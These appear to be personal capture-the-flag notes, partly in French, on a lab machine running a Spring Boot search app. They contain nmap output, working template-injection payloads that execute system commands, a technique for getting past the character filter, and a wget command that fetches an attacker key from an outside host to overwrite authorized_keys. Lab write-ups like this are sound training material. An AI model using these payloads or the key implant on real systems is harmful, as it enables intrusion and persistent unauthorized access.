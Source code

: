 Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-14 18:09 EDT
Nmap scan report for 10.10.11.170
Host is up (0.024s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
8080/tcp open  http-proxy
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Red Panda Search | Made with Spring Boot

---

Quand on search mais avec rien:

Greg is a hacker. Watch out for his injection attacks!

---

Technologie utilisee: Spring boot (C'est du java)

Caracteres interdits: ~$_%
Caracteres qui crashent le server: ){}\


Ceci est execute et lance le process 'whoami'
*{T(java.lang.Runtime).getRuntime().exec('whoami')}
Ceci est execute et retourne le output
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('id').getInputStream())}

wget -O /home/woodenk/.ssh/authorized_keys 10.10.14.138:8080/idrsa.pub

utiliser ssti-payload pour generer des requetes qui permettent les underscores

Ajouter notre cle ssh a .ssh/authorized_keys

pspy pour voir les commandes qui sont lancees (peut importe par qui)
